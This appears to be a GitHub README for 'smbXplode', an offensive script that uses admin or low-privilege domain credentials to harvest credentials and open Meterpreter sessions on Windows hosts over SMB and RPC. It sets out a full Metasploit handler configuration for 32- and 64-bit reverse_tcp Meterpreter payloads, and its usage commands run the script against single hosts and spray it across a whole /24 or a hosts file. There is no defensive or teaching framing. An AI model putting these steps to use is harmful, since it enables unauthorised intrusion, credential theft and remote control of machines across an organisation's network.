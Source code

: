 # smbXplode

What do do when Metasploit psexec module doesn't work for no good reason ? 
This script is used to automate the process of harvesting credentials and getting meterpreter sessions throught the smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low previledge creds that you want to try them agains the whole range and try to escalate your priviledge later on. 

You can always re-adapt msfcommands.rc to automate the metasploit commands that you wanna run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. Unless you want to use the winexe command (which you can find commented in the script).

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
```
./smbXplode.sh domain username password hostIP
```

example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

example 
```
running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```


